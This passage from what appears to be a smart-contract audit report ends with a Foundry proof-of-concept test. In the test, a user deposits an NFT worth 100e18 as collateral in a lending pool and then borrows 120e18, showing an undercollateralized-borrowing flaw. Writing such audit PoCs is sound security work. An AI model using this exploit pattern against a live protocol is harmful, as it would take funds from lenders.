 ```
    }

    function _mintRaacNFT() internal {
        // housePrices setting
        raacHousePricesInstance.setHousePrice(0, 100e18);
        raacHousePricesInstance.setHousePrice(1, 50e18);
        raacHousePricesInstance.setHousePrice(2, 150e18);

        // crvUSDToken mint
        deal(address(crvUSDTokenInstance), alice, 1000e18);
        deal(address(crvUSDTokenInstance), bob, 1000e18);
        deal(address(crvUSDTokenInstance), hyuunn, 1000e18);

        // raacNFT mint
        vm.startPrank(alice);
        crvUSDTokenInstance.approve(address(raacNFTInstance), 100e18 + 1);
        raacNFTInstance.mint(0, 100e18 + 1);
        vm.stopPrank();

        vm.startPrank(bob);
        crvUSDTokenInstance.approve(address(raacNFTInstance), 50e18 + 1);
        raacNFTInstance.mint(1, 50e18 + 1);
        vm.stopPrank();
    }

    function test_poc_user_can_borrow_more_than_collateralValue() public {
        // 1. bob deposit
        vm.startPrank(bob);
        crvUSDTokenInstance.approve(address(lendingPoolInstance), 500e18);
        lendingPoolInstance.deposit(500e18);
        vm.stopPrank();
        
        // 2. alice depositNFT 0
        // 2. 0 NFTs are worth 100E18
        vm.startPrank(alice);
        raacNFTInstance.approve(address(lendingPoolInstance), 0);
        lendingPoolInstance.depositNFT(0);

        assertEq(lendingPoolInstance.getUserCollateralValue(alice), 100e18);

        // 3. alice can borrow more than 100e18
        lendingPoolInstance.borrow(120e18);
    }

}
```

## 06. Tools Used

Manual Code Review and Foundry
